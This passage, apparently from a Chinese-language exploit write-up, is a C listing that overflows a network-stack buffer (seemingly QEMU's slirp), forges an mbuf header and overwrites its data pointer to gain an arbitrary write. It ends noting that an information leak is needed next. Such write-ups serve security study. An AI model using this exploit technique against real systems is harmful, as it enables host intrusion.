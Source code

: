```
    pkt_info.ip_p = 0xff;
    send_ip_pkt(&amp;pkt_info, payload, 0x300 + 4); // 这个packet就在so_rcv的后面

        //溢出，将指针后移
    /*
        let's overflow here!
        send(xxx)
    */
    for (i = 0; i &lt; 6; ++i) `{`
        write(s, payload, 0x500); // 不能send一个满的m_buf，因为会有一个off by
                                  // null = =。。。。
        usleep(20000); // 不知道为啥，貌似内核会合并包？
                       // 如果合并了就会off by null...
                       // 所以sleep一下
        dbg_printf("send %d completen", i + 1);
    `}`
    write(s, payload, 1072);
        //伪造mbuf，覆盖m_data指针
    // actual overflow here
    *payload64++ = 0;
    *payload64++ = 0x675; // chunk header
    *payload64++ = 0;     // m_next
    *payload64++ = 0;     // m_prev
    *payload64++ = 0;     // m_nextpkt
    *payload64++ = 0;     // m_prevpkt
    payload32 = (uint32_t *)payload64;
    *payload32++ = 0;     // m_flags
    *payload32++ = 0x608; // m_size
    payload64 = (uint64_t *)payload32;
    *payload64++ = 0; // m_so
    payload = (uint8_t *)payload64;
    assert(addr_len &lt;= 8);
    for (i = 0; i &lt; addr_len; ++i) `{`
        *payload++ = (addr &gt;&gt; (i * 8)) &amp; 0xff; // 覆盖m_data指针
    `}`
    write(s, payload_start, (uint8_t *)payload - payload_start);
    // write(s, payload, 0x1000);
    ...
    //再次发送相同id且MF标志位为0的数据包，实现任意地址写
    pkt_info.ip_id = 0xdead;
    pkt_info.ip_off = 0x300 + 24;
    pkt_info.MF = 0;
    pkt_info.ip_p = 0xff;
    send_ip_pkt(&amp;pkt_info, write_data, write_data_len);
```

### <a class="reference-link" name="%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2"></a>信息泄露

因为程序开启了PIE，所以还需要信息泄露才能进一步利用。

